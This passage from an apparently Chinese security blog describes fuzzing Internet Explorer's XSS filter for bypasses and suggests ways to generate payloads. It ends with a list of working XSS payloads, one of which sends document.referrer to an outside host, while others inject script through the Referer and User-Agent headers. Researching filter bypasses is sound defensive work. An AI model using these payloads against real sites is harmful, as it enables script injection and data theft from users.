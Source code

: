 转化为脚本

这里当我把 python 改完，突然意识到 python 的正则是 pcre 的！还好 webkit 的 filter 是基于 pcre 的（下次内容写 webkit）。

微软向来用自己家东西，用 C++写了个 fuzz 程序进行 fuzz 测试。 

用法。IEfilter.txt 是 IE 的正则。Bypasstest.txt 是绕过语句，result 和 console 界面程序会保存输出结果。

![20130702203334_32890_png.jpg](img/img6_u50_jpg.jpg)

downloadlink:[`pan.baidu.com/share/link?shareid=1243023532&uk=1259968226`](http://pan.baidu.com/share/link?shareid=1243023532&uk=1259968226)

Bypastest 内容可以自己生成。如果以前玩过 spike 的同学可以直接借用之前的 payload 和方法.

这里提供以下生成 payload 思路：

```
1.特殊字符 [0x09,0x0A-0x0D,0x20,0xA0] 
2.不同编码 xc2xb4xe2x80x99xe2x80 甚至畸形编码ф1й2у3ц4 
3.生僻函数 
4.边界变量 
```

剩下的大家自己动手研究。

### 0x04 一些分享

* * *

欢迎和我沟通或者写文章（升，升，升！）

来自国外的一些 tip.（多关注国外技术 blog 或者论坛）

```
Tip1: var url = "htpp://xss.cx/default.aspx?xss="+encodeURIComponent(document.referrer)"; if (window!=top) {top.location.href = url;} else document.location= url; 
Tip2: <script/src="data:text/javascript,o={window:'/XSS/'};prompt(o['window']);"></script> 
Tip3: <body/onload="@set @evil=1; @if(@evil)eval(confirm(@evil))@end;"> 
Tip4: "><script>alert(document.location)</script> (webkit) 
Tip5: "-prompt(document.location)-" (webkit) 
Tip6: Referer: http://www.google.com/search?hl=en&q=xss"><script>prompt(9)</script> (webkit) 
Tip7: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0)xss"><script>prompt(9)</script> (webkit)   短短研究过这个。 
```
